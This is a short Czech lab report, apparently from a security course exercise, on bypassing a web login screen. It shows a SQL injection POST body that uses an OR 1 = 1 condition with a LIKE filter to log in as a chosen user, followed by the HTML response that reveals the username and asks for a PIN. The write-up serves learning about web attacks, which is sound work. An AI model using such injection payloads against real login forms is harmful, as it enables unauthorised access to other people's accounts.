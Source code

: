 # REPORT - moravja8


## Prolomení login screen a zijštění username
**POST body:** "username= ' OR 1 = 1 AND username like '%moravja8%' OR '&password="
**Response:** <br />
    ```<pre><code><h2>Welcome <font color="green">rux6j_moravja8</font>, enter your four digit PIN number</h2><form id="pin" action="index.php" method="post"><input type="text" maxlength="4" name="pin" placeholder="_ _ _ _" required ><input type="submit" value="Verify"></form><a id="logout" href="index.php?logout">Logout</a></code></pre>```

